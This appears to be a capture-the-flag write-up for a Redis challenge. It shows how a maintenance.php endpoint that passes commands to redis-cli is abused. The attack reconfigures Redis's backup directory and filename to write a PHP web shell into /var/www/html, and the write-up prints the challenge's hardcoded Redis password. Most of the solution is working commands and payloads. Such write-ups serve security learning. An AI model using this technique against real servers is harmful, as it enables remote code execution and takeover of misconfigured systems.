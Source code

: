 # Redis
We need your help!!

The server stopped working, all that's left is the maintenance port.

To access it, run:

curl http://localhost/maintenance.php

We're pretty sure the bug is in the index page. Can you some

## Solution
The redis console in the kitchen has a vulnerability that allows to dump the contents of the databse to a file in the file system. To simplify the execution of payloads we can build a helper function as follows:
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```

This way we simply send the commands we want redis to execute with parameters separated by commas, to exploit the vulnerability we have to configure the database backup directory to the web directory and the database backup file to a `.php` file, save the database to a file and then call the new file from the web server to execute our code.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,1.php
cmd set,2,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Findex%2Ephp%22%29%3B%20%3F%3E
cmd set,3,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Frce%2Ephp%22%29%3B%20%3F%3E
Running: redis-cli --raw -a '<password censored>' 'set' '3' '<?php readfile("/var/www/html/maintenance.php"); ?>'
OK
cmd save
Running: redis-cli --raw -a '<password censored>' 'save'
OK
```

The php file will contain some REDIS database headers but those do not stop PHP from executing the rest of the code
```
curl localhost/1.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�Km�_used-mem�(
 aof-preamble��� �-<?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
�3<?php
$redis_password = "R3disp@ss";
if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
    die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncurl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cmd=mget,example1\n\n");
}
# Pull apart the command, escape it, and put it back together
$cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));
if(strpos($cmd, 'scan') !== false) {
  die("'scan' is not allowed");
}
if(strpos($cmd, 'requirepass') !== false) {
  die("'requirepass' is not allowed");
}
$cmd = "redis-cli --raw -a '$redis_password' $cmd";
echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";
$result = shell_exec($cmd);
echo $result;
?>
```

## Full RCE
We can achive upload a simple RCE php with the following sequence.
1. Load our helper function to simplify the exploitation
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```
2. Flush the database to avoid undesired content, configure redis to store out databse content into a php file and save the database.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,rce.php
cmd 'set,backup1,%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E'
cmd save
```
3. Call our file using `curl` to execute whatever command we want.
```
curl localhost/rce.php?cmd=ls --output -
```
Spaces have to be replaced with `+` or `%20` to succeed.
```
curl localhost/rce.php?cmd=ls%20-al --output -
```